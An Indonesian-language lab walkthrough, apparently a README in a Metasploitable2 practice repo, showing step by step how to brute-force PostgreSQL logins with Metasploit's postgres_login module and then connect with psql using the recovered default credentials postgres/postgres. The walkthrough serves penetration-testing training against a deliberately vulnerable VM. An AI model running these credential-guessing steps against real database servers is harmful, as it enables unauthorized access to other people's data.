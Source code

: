 # Exploit Port 5432 (PostgreSQL)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20postgreSQL/pgsql%201.JPG)

- Gunakan modul `auxiliary/scanner/postgres/postgres_login` untuk melakukan brute force pada postgre SQL
```sh
use auxiliary/scanner/postgres/postgres_login
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20postgreSQL/pgsql%202.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20postgreSQL/pgsql%203.JPG)

- Isi parameter `USERNAME` dengan `postgres`, isi parameter `USER_AS_PASS` dengan `true` sehingga username akan dipergunakan sebagai password, dan isi parameter RHOST dengan IP metasploitable2
```sh
set username postgres
set user_as_pass true
set rhosts <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20postgreSQL/pgsql%204.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Setelah dijalankan didapat username `postgres` dan password `postgres` untuk mengakses postgreSQL di server
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20postgreSQL/pgsql%205.JPG)

- Lakukan uji coba koneksi ke PostgreSQL dengan username `postgres` kemudian masukkan password `postgres`
```sh
psql -U postgres -h <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20postgreSQL/pgsql%206.JPG)